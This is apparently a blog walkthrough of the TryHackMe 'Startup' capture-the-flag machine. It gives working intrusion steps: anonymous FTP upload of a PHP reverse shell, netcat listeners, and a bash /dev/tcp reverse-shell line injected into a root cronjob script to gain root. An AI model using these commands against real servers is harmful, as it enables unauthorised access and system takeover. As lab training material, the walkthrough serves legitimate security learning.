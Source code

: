 ```yaml
---
layout: post
permalink: /posts/thm/startup
title: "Startup"
---
```


We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck! <br/>

Scan the target machine with nmap.

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/startup/nmap.png)

From the scan result we can see there is open port 80 HTTP, 22 SSH and 21 FTP. We can also notice that anonnymous login is enabled on FTP. Let's login and see whether we will be able to find something there.

```
ftp <IP>
```

When it prompt for username provide `anonymous`

![ftp](/assets/images/thm/startup/ftp.png)

There are two files and one directory which is empty. You can download the files with the following command `get <FILLE_NAME>` <br/>

Let's read the text file.

![notice](/assets/images/thm/startup/notice.png)

Hmm... probably we'll be able to upload file into FTP which it'll be accessible through the website. I wasn't able to open the jpg file. Let's visit the website.

![website](/assets/images/thm/startup/website.png)

Nothing useful. Try to scan for hidden directories. I'm going to use gobuster for that purpose.

```
gobuster dir -u http://<IP>/ -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt 
```

![gobuster](/assets/images/thm/startup/gobuster.png)

We have found `files` directory. Let's visit it.

![files](/assets/images/thm/startup/files.png)

These are the files from FTP which we had visited. Let's try to upload reverse shell script. I'm going to use this one `https://github.com/pentestmonkey/php-reverse-shell` Don't forget to change the IP address with your attacking machine IP and desired port.

Go again to the FTP server and navigate to `ftp` folder. From there you can execute the following command `put <FILE_NAME>` to upload your reverse shell script.

![upload](/assets/images/thm/startup/upload.png)

Your script has been uploaded successfully. Go and visit `http://<IP>/files/ftp/` to see whether we'll find your script.

![script](/assets/images/thm/startup/script.png)

Nice, it's here. Start netcat listener on your machine with the port you set in the script.

```
nc -lvnp <PORT>
```

Once the listener is set try to reach the script. It will try loading and you should have shell access in your terminal.

![shell](/assets/images/thm/startup/shell.png)

Now try to find the secret spicy soup recipe.

If list the root directory `/` you will find an interesting folder `incidents`.

![incidents](/assets/images/thm/startup/incidents.png)

How we can download this file. I'm going to start a python server.

```
python -m SimpleHTTPServer
```

Now on your machine execute the following command to download the pcapng file.

```
wget http://<TARGET_MACHINE_IP>:8000/suspicious.pcapng
```

Now we are going to use Wireshark to open the file.

![wireshark](/assets/images/thm/startup/wireshark.png)

Looking trough the packets I find out that someone has also already hack Spice Hut. Right click on packet 35 and select Follow -> TCP Stream

![pass](/assets/images/thm/startup/pass.png)

Someone has tried to see whether user lennie has any sudo rights. I tried to ssh with this username and password but it wasn't successfull.

![ssh](/assets/images/thm/startup/ssh.png)

Then I decided to try to switch the user from the shell which we have but first we need to stabilize our shell.

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

`CTRL+Z` to background the process and go back to the local host. Execute `stty raw -echo` and after that `fg + ENTER` to go back to the reverse shell.

![stabilize](/assets/images/thm/startup/stabilize.png)

Now we should be able to switch to lennie

```
su lennie
```

Try to find the user flag.

Now we need to find a way to escalate our priviliges. As awlays I tried to check whether lennie has any sudo right with `sudo -l` but lennie doesn't have any rights. What can we do then? There is a folder `scripts` in lennie home directory, let's visit it. There are two files.

![ls-la](/assets/images/thm/startup/ls-la.png)

planner.sh is owned by root and we are not able to write in it but we can read it.

![cat](/assets/images/thm/startup/cat.png)

The script can executes other scrpit print.sh

![print](/assets/images/thm/startup/print.png)

Probably planner.sh is runned by cronjob but let's check that. We are going to use `pspy64`. It's a tool which snoop on processes without need root permissions. <br>

start python server on your machine

```
python3 -m httpp.server
```

Download it on the target machine

```
wget http://<YOUR_IP>:8000/pspy64
```

![pspy64](/assets/images/thm/startup/pspy64.png)

![pspy-scan](/assets/images/thm/startup/pspy-scan.png)

As we thought planner.sh is run by cronjob as root 

So, we are the owner of print.sh. We can add some additional script in it. Here you can find some reverse shell cheat sheet `https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet` 

Change the script with your IP address

```
echo "bash -i >& /dev/tcp/<IP>/5555 0>&1" >> /etc/print.sh
```

We also need to start listener on our machine

```
nc -lvnp 5555
```

Wait a little bit and the script will be executed automatically via cronjob. 

![root](/assets/images/thm/startup/root.png)

Here we go, we have root access.
